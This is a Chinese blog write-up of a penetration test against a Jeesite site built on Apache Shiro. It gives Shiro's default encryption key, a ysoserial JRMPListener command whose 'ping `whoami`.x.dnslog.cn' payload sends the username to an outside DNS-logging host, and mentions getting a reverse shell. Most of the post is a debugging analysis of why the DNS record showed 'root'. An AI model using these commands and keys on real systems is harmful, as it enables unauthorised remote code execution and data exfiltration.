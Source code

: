 ```yaml
---
layout: about
category: about
Researchname: JRMP-Gadget
toc: true
permalink: /about/JRMP-Gadget/
author: Bin4xin
---
```


# Shiro框架深入利用：JRMP-Gadget利用链浅析

> PartI: Stay Hungry, Stay Foolish. 
> 
> PartII: 学的越多，不懂得也就越多。

**2021年 6月30日 星期三 15时30分40秒 CST* 前不久，Fofa安全工程师某信正在愉快的网上冲浪，不一会群里丢出了一个惹眼的链接吸引了某信的注意。

- 链接格式：`http://{ip.addr}:{ip.port}/a/login`

**芽儿～当时我整个人的是这样的：**
<div class="col-lg-2">
<img align="left" src="https://i.loli.net/2021/11/18/iLHbaIctkf9GWpO.jpg"/>
</div>

<div>
因为这个链接实在是太熟悉了，浏览器访问，果然直接跳转：<br>
<code>/a/login;JSESSIONID=···</code><br>
和具有辨识度的Cookie：<code>jeesite.session.id</code><br>
<br>
一切都是这么的自然，我可真是太神气了。
</div>

梳理一下：

- Shiro 框架
- Jeesite CMS
	- 已知路由 `/a/、/f/`...

所以这个站就可以直接从Shiro入手来看，老三样：跑密钥 -> 利用链 -> Dnslog

不过跑密钥出了个小插曲，登录路由login处设置`rememberMe Cookie`时反包*Set-Cookie*不显示*deleteMe Cookie*，具体原因待更新：[*Different Shiro Framework deserialization analysis ideas*](/about/ShiroDeser/){:target="_blank"}，而从上面的特征我们已经可以肯定存在Shiro框架，当然也可以通过对不存在的路由进行Cookie设置来进行验证。

![shiro-cookie.png](https://i.loli.net/2021/11/18/5oPJbQEhrz34X8d.png)

由于上面的原因导致有一些匹配回包来检测shiro框架为逻辑工具就在原地划水不动弹，不慌，总有一些“尖子生”，跑出默认密钥：`kPH+bIxk5D2deZiIxcaaaA==`

紧接着：
```bash
[*] find: JRMPClient can be use
0: JRMPClient
```

- ysoserial.jar公网起JRMP端口，转发命令<code>ping `whoami`.x.dnslog.cn</code>
- JRMP监听显示流量建立链接，查看dnslog：

![shiro-dnslog.png](https://i.loli.net/2021/11/18/5EVuHQXA3doCfcJ.png)

`默认加密密钥 -> JRMPClient利用链 -> Shiro反序列化RCE root` 多么赏心悦目，一切都是那么地丝滑。
<div class="col-lg-3">
	<img  src="https://i.loli.net/2021/11/18/IxPRmipAQ4JfBjH.jpg"/>
</div>
<div>
	<div class="col-lg-8">
		<strong>然而却帅不过三秒：</strong>
		<img  src="https://i.loli.net/2021/11/18/rEDCbQHuTF3XY5K.png"/>
	</div>
</div>
<br><br><br>
<br><br><br>
<br><br>

## 提出问题

其实在这次渗透的过程中，我对于两个地方存疑：

- 第一个问题是开发向：就是Shiro框架识别阶段，`/a/login`路由配置Shiro对应Cookie后没有返回对应的Set-Cookie，如何实现的？同时我这里查了一些资料供参考
	- [Apache Shiro反序列化识别那些事](https://www.hetianlab.com/specialized/20200612143432){:target="_blank"}

- 第二个问题是JRMP Gadget利用阶段，为什么Dnslog记录显示为root，而现实情况下反弹的shell权限则是低权限？

### # 为什么不是root?

![JRMP-logic.png](https://i.loli.net/2021/11/18/LAM9NcPdRUYWa16.png)

如上图，整张图是我个人对于Java反序列化中对于JRMP利用链的过程理解，从`local Attacker`环节开始，具体细节在这里不做展开叙述，其中存在歧义的地方我使用红色部分进行了标记；个人分析存在的问题也是红色部分：

> `VPS - JRMP`阶段在服务器启动的时候命令为：
>
> ><code>java -cp ysoserial.jar ysoserial.exploit.JRMPListener 3333 CommonsCollections5 "ping `whoami`.x.dnslog.cn"</code>
> >
> >对应的：
> >`ysoserial.exploit.JRMPListener`利用类、`3333`本地JRMP监听端口、`CommonsCollections5`Java反序列化利用链以及转发<code>"ping `whoami`.x.dnslog.cn"</code>命令

再来看另外一张图片：

![jrmp-low-per.JPG](https://i.loli.net/2021/11/18/me6CANHghjYIOkR.jpg)

我们看上面这一张图，重点在于`ping root.zj6u6s.dnslog.cn`进程对应的用户同样是低权限用户，也就是说是低权限的用户去运行的<code>`whoami`</code>这个命令而且输出的是`root`，但是从Linux权限的常识来看是不会出现这样的情况的。所以有了以下设想：

- 我初步的设想是：**假设1:命令是在受害机器上执行**，那么有几种情况：
	- 1.1:会不会因为该用户是sudo用户才导致返回的dns记录为root？
	- 1.2:~~启动Tomcat服务的为root用户？~~（通过`ps -ef`可以直接排除，而且细想，若Tomcat用户为root，那么肯定反弹的用户也为root）

所以我针对1.1假设进行了实验进行正确型验证：
```bash
➜ bin4xin sudo -l

User bin4xin may run the following commands on bin4xin's MacbookPro:
    (ALL) ALL

➜ bin4xin (sudo) ping `whoami`.31veg3.dnslog.cn
PING bin4xin.31veg3.dnslog.cn (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.087 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.163 ms
```
我们可以通过上面的bash信息和下面的dnslog信息返回看到，与sudo用户无关
```bash
#是否添加sudo返回都如下：
#dnslog返回记录
bin4xin.31veg3.dnslog.cn	61.132.161.4	2021-07-05 13:44:34
bin4xin.31veg3.dnslog.cn	61.132.161.6	2021-07-05 13:44:34
```
所以这种假设我们就直接排除了；

- 第二种设想 **假设2:命令是在VPS机器上执行**，就是JRMP利用过程链那张图中红色的那一部分，我想：<code>"ping `whoami`.x.dnslog.cn"命令</code>转发前本地机器是否已经执行了`whoami`所以导致了受害机器执行的是root开头的命令呢？
	- 那么如果通过这种假设，过程就是：`JRMP Server Listen: *0.0.0.0:3333` -> 本地机器执行<code>`whoami`</code>
	- 受害机器访问JRMP Server，执行`ping root.x.dnslog.cn`。

这种情况下来看，实际上也能够说通，而实际上也正是如此，本来打算是在本地跑个Shiro走一整个流程的，但是直到我发现了这个：
```bash
➜ bin4xin java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections3 "ping `whoami`.6iep0z.dnslog.cn"
* Opening JRMP listener on 8888

#ysoserial.exploit.JRMPListener利用类监听状态下：
➜ bin4xin ps -ef|grep ping

  501  6895  6696   0  2:37下午 ttys004    0:00.54 java -cp ysoserial.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections3 ping bin4xin.6iep0z.dnslog.cn
```
看到`java -cp ysoserial.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections3 ping bin4xin.6iep0z.dnslog.cn`进程一切已然清晰；

至此，本章核心阐述完毕。以上
